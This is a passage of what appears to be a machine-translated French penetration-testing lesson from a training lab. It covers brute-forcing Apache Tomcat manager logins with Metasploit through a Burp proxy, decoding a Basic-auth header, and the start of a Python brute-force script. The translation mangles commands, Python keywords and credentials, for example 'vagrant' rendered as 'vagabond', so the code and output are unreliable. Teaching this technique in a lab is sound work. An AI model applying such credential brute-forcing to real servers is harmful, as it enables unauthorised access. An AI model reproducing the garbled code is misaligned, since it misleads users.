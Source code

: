 Disons qu'un module Metasploit particulier (ou un autre outil) échoue ou ne se comporte pas comme nous le pensons. Nous pouvons toujours utiliser Burp Suite ou ZAP pour proxy le trafic et dépanner. Pour ce faire, lancez d'abord Burp Suite, puis définissez l'option `PROXIES` comme suit :

```
msf6 auxiliaire (scanner/http/tomcat_mgr_login) > définir PROXYS HTTP:127.0.0.1:8080

PROXY => HTTP:127.0.0.1:8080

msf6 auxiliaire (scanner/http/tomcat_mgr_login) > exécuter

[!] No active DB -- Les données d'identification ne seront pas enregistrées !
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : admin : admin (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : admin : gestionnaire (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : admin : rôle1 (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : admin : root (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : admin : tomcat (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : admin:s3cret (Incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : admin : vagabond (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : gestionnaire : administrateur (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : gestionnaire : gestionnaire (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : gestionnaire : rôle1 (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : gestionnaire : racine (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : gestionnaire : tomcat (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : gestionnaire : s3cret (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : gestionnaire : vagabond (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : rôle1 : administrateur (incorrect)

```

Nous pouvons voir dans Burp exactement comment le scanner fonctionneg, en tenant compte de chaque paire d'informations d'identification et de l'encodage base64 pour l'authentification de base utilisée par Tomcat.

![image](https://academy.hackthebox.com/storage/modules/113/burp_tomcat.png)

Une vérification rapide de la valeur dans l'en-tête `Authorization` pour une requête montre que l'analyseur fonctionne correctement, encodant en base64 les informations d'identification `admin:vagrant` comme le ferait l'application Tomcat lorsqu'un utilisateur tente de se connecter directement à partir du Web. application. Essayez ceci pour quelques exemples tout au long de ce module pour commencer à vous familiariser avec le débogage via un proxy.

```
dsgsec@htb[/htb]$ echo YWRtaW46dmFncmFudA== |base64 -d

administrateur : vagabond

```

Nous pouvons également utiliser [ce](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce) script Python pour obtenir le même résultat.

Code : python

```
#!/usr/bin/python

demandes d'importation
de termcolor import cprint
importer l'analyse d'arguments

parser = argparse.ArgumentParser(description = "Tomcat manager ou host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL vers la page Tomcat")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager ou host-manager URI")
parser.add_argument("-u", "--usernames", type = str, required = True, help = "Users File")
```